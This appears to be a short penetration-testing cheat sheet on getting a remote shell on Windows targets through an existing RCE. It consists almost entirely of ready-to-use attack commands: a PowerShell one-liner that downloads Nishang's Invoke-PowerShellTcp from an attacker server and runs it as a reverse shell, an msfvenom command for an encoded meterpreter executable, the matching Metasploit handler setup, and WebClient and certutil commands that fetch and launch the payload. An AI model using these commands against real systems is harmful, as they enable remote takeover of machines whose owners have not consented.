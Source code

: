 The following repository contains some scripts for initial access, enumeration and privilege escalation.

```
https://github.com/samratashok/nishang
```

We will start by downloading the following reverse shell:

```
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
```

Then, we will start a python server to serve the file, and we will make the target download it and execute it (using RCE):

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<attacker-ip>:<http-server-port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <attacker-ip> -Port <reverse-shell-port>
```

or we could simply use powershell encoded reverse shell or any other shell from the following link:

```
https://www.revshells.com/
```

# Meterpreter Shell
To generate a x86 meterpreter encoded reverse shell we could use the following command:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell.exe
```

Then, we start a handler on Metasploit:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ip>
set LPORT <port>
run
```

Now we download the file on the target (using RCE) and run it:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:<port>/shell.exe','shell.exe')";powershell Start-Process "shell.exe"
# Or we could use this
certutil -urlcache -split -f http://10.21.25.103:8000/shell.exe shell.exe
```